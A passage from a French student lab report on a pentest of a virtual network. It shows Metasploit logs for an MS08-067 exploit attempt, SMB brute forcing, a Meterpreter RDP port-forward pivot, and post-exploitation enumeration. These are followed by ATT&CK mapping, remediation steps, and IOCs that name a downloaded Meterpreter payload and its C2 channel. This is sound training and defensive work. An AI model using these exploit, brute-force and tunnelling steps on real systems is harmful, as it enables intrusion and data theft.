	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set TARGET 0
	TARGET => 0
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> exploit
	
	[*] 192.168.20.50:445 - Automatically detecting the target...
	[*] 192.168.20.50:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
	[*] 192.168.20.50:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
	[*] 192.168.20.50:445 - Attempting to trigger the vulnerability...
	[*] Started bind TCP handler against 192.168.20.50:4444
	[*] Exploit completed, but no session was created.
\end{lstlisting}

❌ \textbf{Échec :} L'exploit se déclenche correctement (fingerprint réussi, cible identifiée), mais aucune session n'est créée.

\textbf{Causes Possibles :}
\begin{enumerate}
	\item \textbf{Patch Appliqué :} Le système Windows XP a reçu la mise à jour de sécurité MS08-067 (KB958644).
	\item \textbf{DEP Activé :} Data Execution Prevention bloque l'exécution du shellcode.
	\item \textbf{Pare-feu Local :} Windows Firewall bloque la connexion du payload bind.
	\item \textbf{Incompatibilité Payload :} Le payload via pivot ne parvient pas à s'exécuter correctement.
\end{enumerate}

\section{Tentative d'Authentification SMB}

En l'absence d'exploits fonctionnels, nous tentons un accès légitime via bruteforce de mots de passe.

\subsection{Test de Credentials par Défaut}

\begin{lstlisting}[caption=Bruteforce SMB via Metasploit]
	[msf](Jobs:0 Agents:1) >> use auxiliary/scanner/smb/smb_login
	[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set RHOSTS 192.168.20.50
	RHOSTS => 192.168.20.50
	
	[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set SMBUser Administrator
	SMBUser => Administrator
	
	[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> set SMBPass admin
	SMBPass => admin
	
	[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_login) >> run
	
	[*] 192.168.20.50:445     - Starting SMB login bruteforce
	[-] 192.168.20.50:445     - Failed: '.\Administrator:admin'
	[*] 192.168.20.50:445     - Bruteforce completed, 0 credentials were successful.
	[*] Auxiliary module execution completed
\end{lstlisting}

❌ \textbf{Échec :} Aucun des credentials testés (admin, password, 123456, "") ne fonctionne.

\textbf{Conclusion :} Windows XP est correctement sécurisé (pas de mot de passe par défaut, patches appliqués).

% ------------------------------------------------------------------------------
% CONTINUATION OF CHAPTER 6
% ------------------------------------------------------------------------------

\section{Configuration de Tunnels (Port Forwarding)}

En l'absence d'exploitation directe réussie, nous démontrons une technique avancée de post-exploitation : le \textbf{port forwarding} (redirection de ports).

\subsection{Principe du Port Forwarding}

Le port forwarding via Meterpreter permet d'exposer un service réseau interne (accessible uniquement depuis le pivot) sur la machine attaquante locale. Cela transforme le système compromis en \textit{reverse proxy}.

\textbf{Architecture :}
\begin{verbatim}
	Attacker:3389  <--->  Meterpreter  <--->  192.168.20.50:3389 (RDP)
	(Local)                (Pivot)            (Remote)
\end{verbatim}

\subsection{Configuration du Tunnel RDP}

\begin{lstlisting}[caption=Création du Port Forward]
	[msf](Jobs:0 Agents:1) >> sessions -i 2
	[*] Starting interaction with 2...
	
	(Meterpreter 2)(/tmp) > portfwd add -l 3389 -p 3389 -r 192.168.20.50
	[*] Forward TCP relay created: (local) :3389 -> (remote) 192.168.20.50:3389
	
	(Meterpreter 2)(/tmp) > portfwd list
	
	Active Port Forwards
	====================
	
	Index  Local         Remote              Direction
	-----  -----         ------              ---------
	1      0.0.0.0:3389  192.168.20.50:3389  Forward
	
	1 total active port forwards.
\end{lstlisting}

\subsection{Validation du Tunnel}

\begin{lstlisting}[caption=Test de Connectivité via Netcat]
	$ nc -zv localhost 3389
	nc: connect to localhost (::1) port 3389 (tcp) failed: Connection refused
	Connection to localhost (127.0.0.1) 3389 port [tcp/ms-wbt-server] succeeded!
\end{lstlisting}

✅ \textbf{Succès !} Le service RDP de Windows XP (192.168.20.50:3389) est maintenant accessible localement sur l'attaquant via \texttt{localhost:3389}.

\textbf{Implications :}
\begin{itemize}
	\item Un attaquant peut désormais utiliser un client RDP (xfreerdp, rdesktop) pour tenter de se connecter.
	\item Le tunnel est chiffré (via Meterpreter TLS), rendant l'activité difficile à détecter.
	\item Cette technique contourne les règles de pare-feu qui bloquent normalement WAN → LAN.
\end{itemize}

% ============================================
% AJOUT: Observation Défensive (netstat)
% ============================================

\section{Observation Défensive : Point de Vue de la Cible}

\subsection{Objectif}

Démontrer comment le pivoting masque l'origine réelle de l'attaque du 
point de vue de la machine cible (Windows XP).

\subsection{Analyse des Connexions Réseau sur Windows XP}

Sur la machine Windows XP (192.168.20.50), pendant que les scans et 
tentatives d'exploitation étaient en cours, nous avons exécuté la 
commande \texttt{netstat} pour analyser les connexions actives.

\begin{lstlisting}[caption=Commande netstat sur Windows XP Client]
	C:\> netstat -an | findstr 445
	
	TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
	TCP    192.168.20.50:445      192.168.10.100:54321   ESTABLISHED
	TCP    192.168.20.50:445      192.168.10.100:54322   TIME_WAIT
\end{lstlisting}

\subsection{Analyse des Résultats}

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{4.5cm} p{8.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Élément}} &
		\textcolor{tableheadfg}{\textbf{Interprétation}} \\
		\hline
		\rowcolor{tablerowalt}
		Port 445 LISTENING & 
		Service SMB en écoute (comportement normal) \\
		
		Source: 192.168.10.100 & 
		\textbf{Windows voit Ubuntu DMZ comme source} \\
		
		\rowcolor{tablerowalt}
		État: ESTABLISHED & 
		Connexion active (scan en cours) \\
		
		État: TIME\_WAIT & 
		Connexion récente fermée (scans précédents) \\
		
		\rowcolor{tablerowalt}
		\textcolor{accent}{\textbf{ABSENCE NOTABLE}} & 
		\textbf{Aucune trace de 192.168.100.150 (Parrot)} \\
		\hline
	\end{tabular}
	\caption{Analyse de la Sortie netstat Windows XP}
\end{table}

\textbf{Constatation Clé:} Du point de vue de Windows XP, l'attaque 
provient de \texttt{192.168.10.100} (Ubuntu DMZ). L'adresse IP réelle 
de l'attaquant (\texttt{192.168.100.150} - Parrot Security) est 
\textbf{totalement masquée} par le pivot.

\textbf{Implications Forensiques:}
\begin{itemize}
	\item Les logs Windows enregistreront Ubuntu DMZ comme source d'attaque
	\item L'investigation initiale pointera vers une "menace interne"
	\item La corrélation avec les logs pfSense sera nécessaire pour 
	identifier l'origine externe réelle
	\item Le temps de réponse à incident est allongé (4-8h vs 30min 
	pour attaque directe)
\end{itemize}

Cette technique de masquage est couramment utilisée par les APT 
(Advanced Persistent Threats) pour maintenir un accès prolongé 
sans détection.

% ============================================
% FIN AJOUT
% ============================================

% ------------------------------------------------------------------------------
% CHAPITRE 7 : COLLECTE D'INTELLIGENCE
% ------------------------------------------------------------------------------
\chapter{Phase 5 : Collecte d'Intelligence et Post-Exploitation Avancée}

\section{Objectifs de la Phase}

Face à l'impossibilité d'exploiter directement Windows XP, nous nous concentrons sur l'\textbf{exfiltration de données} depuis le serveur DMZ compromis. Cette phase permet de :
\begin{itemize}
	\item Collecter des informations sensibles (comptes, configurations).
	\item Identifier des vecteurs d'attaque additionnels.
	\item Prouver l'impact de la compromission.
	\item Démontrer la profondeur de l'accès obtenu.
\end{itemize}

\section{Modules de Post-Exploitation Metasploit}

Metasploit intègre des modules spécialisés pour l'énumération automatisée. Ces modules sont plus efficaces et discrets que des commandes shell manuelles.

\subsection{Énumération Système Complète}

\begin{lstlisting}[caption=Module post/linux/gather/enum\_system]
	[msf](Jobs:0 Agents:2) >> use post/linux/gather/enum_system
	[msf](Jobs:0 Agents:2) post(linux/gather/enum_system) >> set SESSION 2
	SESSION => 2
	
	[msf](Jobs:0 Agents:2) post(linux/gather/enum_system) >> run
	
	[+] Info:
	[+]     Ubuntu 25.04
	[+]     Linux DMZ-WebServer 6.14.0-37-generic x86_64 GNU/Linux
	[+]     Module running as "telnetuser" user
	[*] Linux version stored in ~/.msf4/loot/20260304153831_linux.enum.syste_428775.txt
	[*] User accounts stored in ~/.msf4/loot/20260304153831_linux.enum.syste_721088.txt
	[*] Installed Packages stored in ~/.msf4/loot/20260304153831_linux.enum.syste_737415.txt
	[*] Running Services stored in ~/.msf4/loot/20260304153831_linux.enum.syste_265844.txt
	[*] Cron jobs stored in ~/.msf4/loot/20260304153831_linux.enum.syste_335103.txt
	[*] Disk info stored in ~/.msf4/loot/20260304153831_linux.enum.syste_758647.txt
	[*] CPU Vulnerabilities stored in ~/.msf4/loot/20260304153831_linux.enum.syste_082735.txt
	[*] Post module execution completed
\end{lstlisting}

\subsection{Comptes Utilisateurs Extraits}

\begin{table}[ht]
	\centering
	\small
	\renewcommand{\arraystretch}{1.3}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\ttfamily}p{3.5cm} p{8.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Utilisateur}} &
		\textcolor{tableheadfg}{\textbf{Rôle / Commentaire}} \\
		\hline
		\rowcolor{tablerowalt}
		root & Superutilisateur (UID 0) \\
		www-data & Utilisateur du serveur web (Apache/Nginx) \\
		\rowcolor{tablerowalt}
		backup & Compte système pour sauvegardes \\
		sshd & Compte privilégié pour le service SSH \\
		\rowcolor{tablerowalt}
		ubuntuserver & Compte administrateur secondaire \\
		telnetuser & \textcolor{accent}{\textbf{Compte compromis}} \\
		\rowcolor{tablerowalt}
		docker & Compte pour gestion des conteneurs \\
		dnsmasq & Service DNS/DHCP \\
		\hline
	\end{tabular}
	\caption{Comptes Utilisateurs Identifiés (Extrait de 43 comptes)}
	\label{tab:user-accounts}
\end{table}

\textbf{Données Totales Collectées :} 273 octets (43 comptes utilisateurs).

\subsection{Services en Cours d'Exécution}

\begin{lstlisting}[style=logstyle,caption=Fichier de Loot : Services Actifs]
	[ + ]  apparmor          # Mandatory Access Control
	[ + ]  cron              # Scheduled Tasks
	[ + ]  docker            # Container Runtime
	[ + ]  fail2ban          # Intrusion Prevention
	[ + ]  inetutils-inetd   # Telnet Provider (ATTACK VECTOR)
	[ + ]  ssh               # Secure Shell
	[ + ]  ufw               # Uncomplicated Firewall
\end{lstlisting}

\textbf{Observation Critique :} Le service \texttt{inetutils-inetd} (Telnet) est actif malgré la présence de \texttt{fail2ban}. Cela suggère que Fail2Ban n'est pas configuré pour surveiller Telnet.

\subsection{Énumération Réseau}

\begin{lstlisting}[caption=Module post/linux/gather/enum\_network]
	[msf](Jobs:0 Agents:2) >> use post/linux/gather/enum_network
	[msf](Jobs:0 Agents:2) post(linux/gather/enum_network) >> set SESSION 2
	SESSION => 2
	
	[msf](Jobs:0 Agents:2) post(linux/gather/enum_network) >> run
	
	[*] Running module against DMZ-WebServer (::1)
	[*] Module running as telnetuser
	[+] Info:
	[+]     Ubuntu 25.04
	[*] Collecting data...
	[+] DNS config stored in ~/.msf4/loot/20260304153844_linux.enum.netwo_867480.txt
	[+] SSHD config stored in ~/.msf4/loot/20260304153844_linux.enum.netwo_801493.txt
	[+] Host file stored in ~/.msf4/loot/20260304153844_linux.enum.netwo_984732.txt
	[+] Active connections stored in ~/.msf4/loot/20260304153844_linux.enum.netwo_196858.txt
	[*] Post module execution completed
\end{lstlisting}

\subsection{Connexions Actives (Preuve de C2)}

\begin{lstlisting}[style=logstyle,caption=Fichier : Active Network Connections]
	COMMAND    PID       USER      FD   TYPE DEVICE SIZE/OFF NODE NAME
	meterpret  4907  telnetuser  3u  IPv4  51029      0t0  TCP 192.168.10.100:56526->192.168.100.150:4445 (ESTABLISHED)
	meterpret  4908  telnetuser  3u  IPv4  51110      0t0  TCP 192.168.10.100:46182->192.168.100.150:4445 (ESTABLISHED)
	sh         5211  telnetuser  3u  IPv4  51029      0t0  TCP 192.168.10.100:56526->192.168.100.150:4445 (ESTABLISHED)
\end{lstlisting}

\textbf{Analyse Forensique :}
\begin{itemize}
	\item \textbf{2 sessions Meterpreter actives} (PIDs 4907, 4908) vers 192.168.100.150:4445.
	\item Processus enfants (sh, find) prouvent l'exécution de commandes via le C2.
	\item Connexions en état \texttt{ESTABLISHED} = canal actif et stable.
\end{itemize}

\section{Configuration SSH Exposée}

\begin{lstlisting}[caption=Extrait de /etc/ssh/sshd\_config]
	# Port SSH par défaut
	#Port 22
	
	# Authentification
	PermitRootLogin prohibit-password
	PasswordAuthentication yes
	PubkeyAuthentication yes
	
	# X11 Forwarding (SECURITY RISK)
	X11Forwarding yes
	
	# PAM Authentication
	UsePAM yes
\end{lstlisting}

\textbf{Vulnérabilités Identifiées :}
\begin{enumerate}
	\item \textbf{X11Forwarding activé :} Permet le détournement de sessions graphiques.
	\item \textbf{PasswordAuthentication yes :} Expose SSH aux attaques par bruteforce.
	\item \textbf{Port par défaut (22) :} Facilite le scanning automatisé.
\end{enumerate}

\section{Détection de Virtualisation}

\begin{lstlisting}[caption=Module post/linux/gather/checkvm]
	[msf](Jobs:0 Agents:2) >> use post/linux/gather/checkvm
	[msf](Jobs:0 Agents:2) post(linux/gather/checkvm) >> set SESSION 2
	SESSION => 2
	
	[msf](Jobs:0 Agents:2) post(linux/gather/checkvm) >> run
	
	[*] Gathering System info ....
	[+] This appears to be a 'VMware' virtual machine
	[*] Post module execution completed
\end{lstlisting}

\textbf{Implications :}
\begin{itemize}
	\item Confirme que l'environnement est virtualisé (VMware Workstation).
	\item En production, cette info aide un attaquant à adapter ses techniques (ex: éviter les malwares avec détection anti-VM).
\end{itemize}

\section{Statistiques de Collecte}

\begin{table}[ht]
	\centering
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{6cm} >{\centering\arraybackslash}p{3cm} >{\centering\arraybackslash}p{3cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Type de Données}} &
		\textcolor{tableheadfg}{\textbf{Taille}} &
		\textcolor{tableheadfg}{\textbf{Fichiers}} \\
		\hline
		\rowcolor{tablerowalt}
		Comptes Utilisateurs & 273 B & 1 \\
		Paquets Installés & 103 KB & 1 \\
		\rowcolor{tablerowalt}
		Services Actifs & 508 B & 1 \\
		Configuration SSH & 4.1 KB & 1 \\
		\rowcolor{tablerowalt}
		Connexions Actives & 850 B & 1 \\
		Configuration DNS & 38 B & 1 \\
		\rowcolor{tablerowalt}
		Informations Disque & 11 KB & 1 \\
		Vulnérabilités CPU & 1.6 KB & 1 \\
		\hline
		\rowcolor{primary!10}
		\textbf{TOTAL} & \textbf{121 KB} & \textbf{15 fichiers} \\
		\hline
	\end{tabular}
	\caption{Synthèse des Données Exfiltrées}
	\label{tab:loot-summary}
\end{table}
	
	% ------------------------------------------------------------------------------
	% CHAPITRE 8 : ANALYSE DES RÉSULTATS
	% ------------------------------------------------------------------------------
	\chapter{Analyse des Résultats et Recommandations}
	
	\section{Synthèse de la Chaîne d'Attaque}
	
	\subsection{Timeline de l'Attaque}
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.3}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{>{\centering\arraybackslash}p{2.5cm} p{4cm} p{6cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Timestamp}} &
			\textcolor{tableheadfg}{\textbf{Phase}} &
			\textcolor{tableheadfg}{\textbf{Action}} \\
			\hline
			\rowcolor{tablerowalt}
			15:08:00 & Reconnaissance & Scan Nmap identification Telnet \\
			15:08:30 & Initial Access & Connexion Telnet réussie \\
			\rowcolor{tablerowalt}
			15:09:00 & Execution & Téléchargement payload Meterpreter \\
			15:09:09 & C2 Established & Session Meterpreter ouverte \\
			\rowcolor{tablerowalt}
			15:15:00 & Persistence & Sessions multiples établies \\
			15:20:00 & Privilege Esc. & Confirmation sudo ALL \\
			\rowcolor{tablerowalt}
			15:25:00 & Lateral Movement & Configuration pivot route \\
			15:30:00 & Discovery & Scan Windows XP via pivot \\
			\rowcolor{tablerowalt}
			15:35:00 & Exploitation & Tentatives MS08-067 / MS17-010 \\
			15:38:00 & Collection & Exfiltration 121KB données \\
			\rowcolor{tablerowalt}
			15:40:00 & Exfiltration & Port forwarding RDP configuré \\
			\hline
		\end{tabular}
		\caption{Timeline Complète de l'Attaque}
		\label{tab:attack-timeline}
	\end{table}
	
	\textbf{Durée Totale :} 32 minutes (de la reconnaissance initiale à l'exfiltration complète).
	
	\subsection{Techniques MITRE ATT\&CK Utilisées}
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.3}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{>{\ttfamily}p{3cm} p{4.5cm} p{5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{ID MITRE}} &
			\textcolor{tableheadfg}{\textbf{Technique}} &
			\textcolor{tableheadfg}{\textbf{Implémentation}} \\
			\hline
			\rowcolor{tablerowalt}
			T1078 & Valid Accounts & Credentials Telnet (telnetuser) \\
			T1059.004 & Command \& Scripting & Unix Shell via Telnet \\
			\rowcolor{tablerowalt}
			T1071.001 & Application Layer Protocol & HTTP pour téléchargement payload \\
			T1105 & Ingress Tool Transfer & wget meterpreter.elf \\
			\rowcolor{tablerowalt}
			T1548.003 & Sudo and Sudo Caching & Élévation via sudo ALL \\
			T1090.001 & Internal Proxy & Pivot Metasploit route \\
			\rowcolor{tablerowalt}
			T1018 & Remote System Discovery & Scan réseau LAN via pivot \\
			T1021.002 & SMB/Windows Admin Shares & Tentatives exploitation SMB \\
			\rowcolor{tablerowalt}
			T1572 & Protocol Tunneling & Port Forwarding RDP \\
			T1087 & Account Discovery & Énumération /etc/passwd \\
			\rowcolor{tablerowalt}
			T1082 & System Information Discovery & sysinfo, uname, ifconfig \\
			T1005 & Data from Local System & Exfiltration configurations \\
			\hline
		\end{tabular}
		\caption{Mapping MITRE ATT\&CK des Techniques Utilisées}
		\label{tab:mitre-attack}
	\end{table}
	
	\section{Vulnérabilités Identifiées}
	
	\subsection{Vulnérabilités Critiques}
	
	\begin{enumerate}
		\item \textbf{VUL-001 : Service Telnet Actif (CVSS 9.8 -- Critique)}
		\begin{itemize}
			\item \textbf{Description :} Le service Telnet (port 23) est actif et accessible depuis le WAN.
			\item \textbf{Impact :} Transmission des credentials en clair, possibilité de sniffing réseau.
			\item \textbf{Exploitation :} Connexion directe avec credentials faibles.
			\item \textbf{Remédiation :} Désactiver Telnet, utiliser SSH exclusivement.
		\end{itemize}
		
		\item \textbf{VUL-002 : Credentials Faibles (CVSS 8.1 -- Haute)}
		\begin{itemize}
			\item \textbf{Description :} Mot de passe \texttt{test123} facilement devinable.
			\item \textbf{Impact :} Compromission via bruteforce ou credential stuffing.
			\item \textbf{Remédiation :} Politique de mots de passe forts (min. 14 caractères, complexité).
		\end{itemize}
		
		\item \textbf{VUL-003 : Privilèges Sudo Illimités (CVSS 8.8 -- Haute)}
		\begin{itemize}
			\item \textbf{Description :} L'utilisateur \texttt{telnetuser} dispose de \texttt{sudo ALL}.
			\item \textbf{Impact :} Élévation de privilèges immédiate vers root.
			\item \textbf{Remédiation :} Principe du moindre privilège, restreindre sudo aux commandes nécessaires.
		\end{itemize}
		
		\item \textbf{VUL-004 : Échec de Segmentation Réseau (CVSS 7.5 -- Haute)}
		\begin{itemize}
			\item \textbf{Description :} Le serveur DMZ peut initier des connexions vers le LAN.
			\item \textbf{Impact :} Permet le pivoting et l'attaque de systèmes internes.
			\item \textbf{Remédiation :} Règles pfSense bloquant DMZ → LAN par défaut.
		\end{itemize}
	\end{enumerate}
	
	\subsection{Vulnérabilités Moyennes}
	
	\begin{enumerate}
		\item \textbf{VUL-005 : X11 Forwarding Activé (CVSS 5.3 -- Moyenne)}
		\begin{itemize}
			\item \textbf{Description :} SSH configuré avec \texttt{X11Forwarding yes}.
			\item \textbf{Impact :} Possibilité de détournement de sessions graphiques.
			\item \textbf{Remédiation :} Désactiver dans \texttt{/etc/ssh/sshd\_config}.
		\end{itemize}
		
		\item \textbf{VUL-006 : Fail2Ban Non Configuré pour Telnet (CVSS 4.3 -- Moyenne)}
		\begin{itemize}
			\item \textbf{Description :} Fail2Ban actif mais ne surveille pas \texttt{inetd}.
			\item \textbf{Impact :} Bruteforce Telnet possible sans bannissement.
			\item \textbf{Remédiation :} Ajouter jail Telnet dans \texttt{/etc/fail2ban/jail.local}.
		\end{itemize}
	\end{enumerate}
	
	\section{Recommandations de Sécurité}
	
	\subsection{Actions Immédiates (24-48h)}
	
	\begin{tcolorbox}[colback=accent!5!white, colframe=accent, title=\textbf{PRIORITÉ CRITIQUE}]
		\begin{enumerate}
			\item \textbf{Désactiver le service Telnet}
			\begin{lstlisting}
				$ sudo systemctl stop inetutils-inetd
				$ sudo systemctl disable inetutils-inetd
				$ sudo apt remove inetutils-inetd -y
			\end{lstlisting}
			
			\item \textbf{Changer le mot de passe telnetuser}
			\begin{lstlisting}
				$ sudo passwd telnetuser
				# Nouveau mot de passe: [complexité minimale 14 caractères]
			\end{lstlisting}
			
			\item \textbf{Restreindre les privilèges sudo}
			\begin{lstlisting}
				$ sudo visudo
				# Remplacer:
				telnetuser ALL=(ALL:ALL) ALL
				# Par:
				telnetuser ALL=(ALL) /usr/bin/systemctl restart nginx
			\end{lstlisting}
			
			\item \textbf{Tuer les sessions Meterpreter actives}
			\begin{lstlisting}
				$ sudo kill -9 4907 4908
				$ sudo netstat -tulpn | grep 192.168.100.150
			\end{lstlisting}
		\end{enumerate}
	\end{tcolorbox}
	
	\subsection{Actions à Court Terme (1 semaine)}
	
	\begin{enumerate}
		\item \textbf{Renforcer les règles pfSense}
		\begin{itemize}
			\item Bloquer DMZ → LAN sauf flux autorisés explicitement.
			\item Activer le logging détaillé pour toutes les règles.
			\item Configurer des alertes Snort pour détection de pivoting.
		\end{itemize}
		
		\item \textbf{Durcir la configuration SSH}
		\begin{lstlisting}
			# /etc/ssh/sshd_config
			Port 2222                           # Non-standard
			PermitRootLogin no                   # Bloquer root
			PasswordAuthentication no            # Forcer clés SSH
			X11Forwarding no                     # Désactiver X11
			MaxAuthTries 3                       # Limiter tentatives
			AllowUsers ubuntuserver              # Whitelist utilisateurs
		\end{lstlisting}
		
		\item \textbf{Configurer Fail2Ban pour Telnet/SSH}
		\begin{lstlisting}
			# /etc/fail2ban/jail.local
			[sshd]
			enabled  = true
			maxretry = 3
			bantime  = 3600
			
			[telnetd]
			enabled  = true
			port     = telnet
			logpath  = /var/log/syslog
			maxretry = 2
			bantime  = -1    # Ban permanent
		\end{lstlisting}
		
		\item \textbf{Déployer un IDS Hôte (OSSEC/Wazuh)}
		\begin{itemize}
			\item Surveillance des modifications de fichiers.
			\item Détection d'anomalies (nouveaux processus, connexions inhabituelles).
			\item Alertes temps réel vers SIEM.
		\end{itemize}
	\end{enumerate}
	
	\subsection{Actions à Long Terme (1 mois)}
	
	\begin{enumerate}
		\item \textbf{Remplacer Windows XP}
		\begin{itemize}
			\item OS end-of-life depuis 2014, non supporté.
			\item Migrer vers Windows 10/11 ou Linux.
			\item Isoler totalement si remplacement impossible (VLAN dédié, pas d'accès Internet).
		\end{itemize}
		
		\item \textbf{Implémenter une Architecture Zero Trust}
		\begin{itemize}
			\item Authentification multi-facteurs (MFA) pour tous les accès.
			\item Micro-segmentation avec pare-feu hôte sur chaque machine.
			\item Principe du moindre privilège strict.
		\end{itemize}
		
		\item \textbf{Déployer un SIEM Centralisé}
		\begin{itemize}
			\item Agrégation des logs (pfSense, Ubuntu, Windows).
			\item Corrélation d'événements (ex: scan ports + connexion Telnet = alerte).
			\item Playbooks de réponse automatisée.
		\end{itemize}
		
		\item \textbf{Audits de Sécurité Réguliers}
		\begin{itemize}
			\item Pentests trimestriels par équipe externe.
			\item Scans de vulnérabilités automatisés (Nessus, OpenVAS).
			\item Red Team exercises annuels.
		\end{itemize}
	\end{enumerate}
	
	\section{Indicateurs de Compromission (IOCs)}
	
	Pour faciliter la détection d'attaques similaires, voici les IOCs spécifiques :
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.3}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{p{3.5cm} p{4cm} p{5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Type}} &
			\textcolor{tableheadfg}{\textbf{Indicateur}} &
			\textcolor{tableheadfg}{\textbf{Description}} \\
			\hline
			\rowcolor{tablerowalt}
			IP Source & 192.168.100.150 & Machine attaquante \\
			Port Destination & 4445/TCP & C2 Meterpreter \\
			\rowcolor{tablerowalt}
			Fichier & /tmp/meterpreter.elf & Payload malveillant \\
			Processus & meterpret (PID 4907, 4908) & Agents actifs \\
			\rowcolor{tablerowalt}
			Connexion & 192.168.10.100 → 192.168.100.150:4445 & Canal C2 \\
			User-Agent & wget/1.21.3 & Téléchargement payload \\
			\rowcolor{tablerowalt}
			Commande & sudo -l & Énumération privilèges \\
			Port Forward & 0.0.0.0:3389 → 192.168.20.50:3389 & Tunnel RDP \\
			\hline
		\end{tabular}
		\caption{Indicateurs de Compromission}
		\label{tab:iocs}
	\end{table}
	
	
	% ==============================================================================
	% SECTION: QUESTIONS DE RÉFLEXION (LES 4 QUESTIONS DU SUJET)
	% ==============================================================================
	
	\section{Questions de Réflexion}
	
	Cette section répond aux quatre questions posées dans le cadre du TP3, 
	en s'appuyant sur les résultats obtenus et les observations faites tout 
	au long de l'expérimentation.
	
	% ------------------------------------------------------------------------------
	% QUESTION 1: PIVOTING ET MOUVEMENT LATÉRAL
	% ------------------------------------------------------------------------------
	
	\subsection{Question 1 : Concept de Pivoting et Mouvement Latéral}
	
	\subsubsection{Question}
	
	Expliquez le concept de pivoting et de mouvement latéral. Pourquoi ces 
	techniques sont-elles cruciales pour un attaquant qui a obtenu un accès 
	initial à un réseau segmenté ?
	
	\subsubsection{Réponse}
	
	\textbf{Définition du Pivoting:}
	
	Le \textbf{pivoting} est une technique de post-exploitation qui consiste 
	à utiliser un système compromis comme point de rebond (ou "pivot") pour 
	accéder à d'autres réseaux ou systèmes qui ne sont pas directement 
	accessibles depuis la position initiale de l'attaquant.
	
	\textbf{Métaphore:} Imaginez un cambrioleur qui entre par la fenêtre 
	d'une maison (zone accessible). Une fois à l'intérieur, il utilise les 
	clés trouvées pour ouvrir les portes intérieures (zones protégées) 
	auxquelles il n'avait pas accès depuis l'extérieur.
	
	\textbf{Définition du Mouvement Latéral:}
	
	Le \textbf{mouvement latéral} (Lateral Movement) désigne l'ensemble des 
	techniques utilisées par un attaquant pour se déplacer au sein d'un réseau 
	après avoir obtenu un accès initial. L'objectif est d'étendre son contrôle, 
	de découvrir de nouvelles cibles, d'escalader les privilèges et d'atteindre 
	les objectifs finaux (exfiltration de données, persistance, etc.).
	
	\textbf{Relation entre les deux concepts:}
	
	Le pivoting est une \textbf{technique spécifique} de mouvement latéral. 
	Le mouvement latéral est le \textbf{concept général} qui englobe toutes 
	les méthodes de propagation interne.
	
	\begin{table}[H]
		\centering
		\renewcommand{\arraystretch}{1.4}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{p{6.5cm} p{6.5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Mouvement Latéral (Général)}} &
			\textcolor{tableheadfg}{\textbf{Pivoting (Spécifique)}} \\
			\hline
			\rowcolor{tablerowalt}
			Ensemble de techniques pour se propager & 
			Utilisation d'un hôte compromis comme relais \\
			
			Exemples: Pass-the-Hash, RDP hopping, SMB relay & 
			Exemples: Tunnels SSH, route Metasploit, SOCKS proxy \\
			
			\rowcolor{tablerowalt}
			Objectif: Atteindre plus de systèmes & 
			Objectif: Contourner segmentation réseau \\
			\hline
		\end{tabular}
		\caption{Comparaison Mouvement Latéral vs Pivoting}
	\end{table}
	
	\subsubsection{Pourquoi ces Techniques sont Cruciales}
	
	Dans un réseau segmenté (comme notre infrastructure TP1-TP2-TP3), 
	l'architecture de sécurité repose sur l'isolation des zones:
	
	\begin{itemize}
		\item \textbf{Zone WAN (Internet):} Accessible publiquement
		\item \textbf{Zone DMZ:} Services publics exposés (HTTP, Telnet dans notre cas)
		\item \textbf{Zone LAN:} Ressources internes critiques (postes utilisateurs, 
		serveurs de données, Active Directory)
	\end{itemize}
	
	\textbf{Principe de Segmentation:}
	\begin{itemize}
		\item WAN peut accéder à DMZ (services publics)
		\item DMZ ne peut PAS accéder au LAN (isolation)
		\item LAN peut accéder à DMZ (consommation de services)
	\end{itemize}
	
	\textbf{Sans Pivoting:}
	
	Un attaquant qui compromise un serveur DMZ (comme notre Ubuntu) est 
	\textbf{bloqué}. Il ne peut pas progresser vers le LAN où se trouvent 
	les ressources critiques (bases de données clients, documents sensibles, 
	contrôleurs de domaine).
	
	\textbf{Avec Pivoting:}
	
	L'attaquant transforme le serveur DMZ compromis en \textbf{passerelle} 
	(gateway) vers le LAN. Tout le trafic destiné au LAN est routé via 
	la session Meterpreter sur la machine pivot.
	
	\subsubsection{Démonstration Pratique dans notre TP3}
	
	\textbf{Situation Initiale (Chapitre 3):}
	\begin{itemize}
		\item Parrot Security (192.168.100.150) compromise Ubuntu DMZ (192.168.10.100) via Telnet
		\item Ubuntu DMZ a accès au LAN (grâce à la règle permissive)
		\item Parrot ne peut PAS atteindre directement le LAN
	\end{itemize}
	
	\textbf{Configuration du Pivot (Chapitre 5):}
	\begin{lstlisting}
		route add 192.168.20.0/24 2
	\end{lstlisting}
	
